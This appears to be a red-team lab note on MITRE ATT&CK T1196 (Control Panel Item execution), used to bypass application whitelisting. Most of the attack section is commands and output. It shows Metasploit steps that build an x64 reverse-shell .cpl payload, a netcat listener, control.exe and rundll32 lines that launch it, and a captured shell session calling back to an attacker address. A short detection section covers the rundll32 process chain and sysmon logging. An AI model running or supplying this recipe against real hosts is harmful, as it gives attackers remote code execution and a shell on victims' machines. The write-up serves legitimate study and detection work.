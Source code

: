 ```yaml
---
description: Control Panel Item code execution - bypass application whitelisting.
---
```


# T1196: Control Panel Item

## Execution

Generating a simple x64 reverse shell in a .cpl format:

{% tabs %}
{% tab title="attacker@local" %}
```csharp
msfconsole
use windows/local/cve_2017_8464_lnk_lpe
set payload windows/x64/shell_reverse_tcp
set lhost 10.0.0.5
exploit

root@~# nc -lvp 4444
listening on [any] 4444 ...
```
{% endtab %}
{% endtabs %}

We can see that the .cpl is simply a DLL with DllMain function exported:

![](../../.gitbook/assets/lnk-dllmain%20%281%29.png)

A quick look at the dissasembly of the dll suggests that rundll32.exe will be spawned, a new thread will be created in suspended mode, which most likely will get injected with our shellcode and eventually resumed to execute that shellcode:

![](../../.gitbook/assets/lnk-dissasm.png)

Invoking the shellcode via control.exe:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
control.exe .\FlashPlayerCPLApp.cpl
# or
rundll32.exe shell32.dll,Control_RunDLL file.cpl
# or
rundll32.exe shell32.dll,Control_RunDLLAsUser file.cpl
```
{% endtab %}
{% endtabs %}

Attacking machine receiving the reverse shell:

{% tabs %}
{% tab title="attacker@local" %}
```csharp
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 49346
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```
{% endtab %}
{% endtabs %}

## Observations

Note how rundll32 spawns cmd.exe and establishes a connection back to the attacker - these are signs that should raise your suspicion when investingating a host for a compromise:

![](../../.gitbook/assets/lnk-connection.png)

As always, sysmon logging can help in finding suspicious commandlines being executed in your environment:

![](../../.gitbook/assets/lnk-sysmon%20%281%29.png)

## Bonus - Create Shortcut With PowerShell

```bash
$TargetFile = "$env:SystemRoot\System32\calc.exe"
$ShortcutFile = "C:\experiments\cpl\calc.lnk"
$WScriptShell = New-Object -ComObject WScript.Shell
$Shortcut = $WScriptShell.CreateShortcut($ShortcutFile)
$Shortcut.TargetPath = $TargetFile
$Shortcut.Save()
```

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1196" %}

{% embed url="https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1060/T1060.md" %}

